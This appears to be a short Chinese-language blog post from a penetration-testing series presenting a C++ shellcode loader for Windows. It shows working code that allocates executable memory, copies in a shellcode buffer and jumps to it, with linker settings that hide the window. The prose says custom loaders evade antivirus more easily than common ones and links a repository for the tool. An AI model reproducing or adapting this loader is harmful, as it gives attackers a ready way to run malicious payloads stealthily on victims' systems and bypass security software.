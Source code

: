 ```yaml
---
title: "C++ ShellCode 加载器"
date: 2019-08-05T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['shellcode','c++','bypass']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


通过 Win32 API 实现从内存中加载 ShellCode.

<!--more-->

之前也用过 Python Go 方式的 ShellCode 执行器, 不过使用 C++ 编译的文件体积会小很多.

```
#include <Windows.h>

#pragma comment(linker,"/subsystem:\"windows\" /entry:\"Run\"")  
#pragma comment(linker, "/INCREMENTAL:NO")   

unsigned char buf[] = "shellcode";


int Run()
{
	LPVOID Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(Memory, buf, sizeof(buf));
	((void(*)())Memory)();
	return 0;
}
```

两行预编译代码用来隐藏窗口和自定义入口点, 实测把 main 改掉以后体积缩小了一大半.

Windows 10 1903 下使用 Visual Studio 2019 编译后大小为 4kb.

至于 ShellCode 加载器, 已经给出了上面的代码, 拓展一下写出一个简单的 loader 也并不困难, 无非就是本地读取和远程读取两种方式. 而且使用自己写的工具而不是网上被大量使用的 shellcode launcher, 会更容易地绕过杀软.

[cpploader](https://github.com/X1r0z/cpploader)